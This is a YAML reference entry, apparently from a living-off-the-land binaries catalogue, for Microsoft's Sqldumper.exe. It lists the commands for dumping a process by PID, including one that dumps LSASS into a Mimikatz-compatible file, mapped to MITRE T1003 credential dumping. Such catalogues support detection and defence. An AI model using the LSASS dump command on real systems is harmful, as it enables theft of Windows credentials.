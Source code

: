 ```yaml
---
name: Sqldumper.exe
description: Debugging utility included with Microsoft SQL.
functions:
  dump:
    - description: Dump process by PID and create a dump file (Appears to create a dump file called SQLDmprXXXX.mdmp).
      code: sqldumper.exe 464 0 0x0110
      mitreid: T1003
      mitrelink: https://attack.mitre.org/wiki/Technique/T1003
      operatingsystem: Windows
      privileges: Administrator
      usecase: Dump process uisng PID.
    - description: 0x01100:40 flag will create a Mimikatz compatibile dump file.
      code: sqldumper.exe 540 0 0x01100:40
      mitreid: T1003
      mitrelink: https://attack.mitre.org/wiki/Technique/T1003
      operatingsystem: Windows
      privileges: Administrator
      usecase: Dump LSASS.exe to Mimikatz compatable dump uisng PID.
resources:
    - resource: https://twitter.com/countuponsec/status/910969424215232518
    - resource: https://twitter.com/countuponsec/status/910977826853068800
    - resource: https://support.microsoft.com/en-us/help/917825/how-to-use-the-sqldumper-exe-utility-to-generate-a-dump-file-in-sql-se
fullpath:
    - path: C:\Program Files\Microsoft SQL Server\90\Shared\SQLDumper.exe
    - path: C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesX86\Microsoft Analysis\AS OLEDB\140\SQLDumper.exe
detection:
  - IOC: 
acknowledgement:
  - Person: Luis Rocha
    Handle: '@countuponsec'
---
```

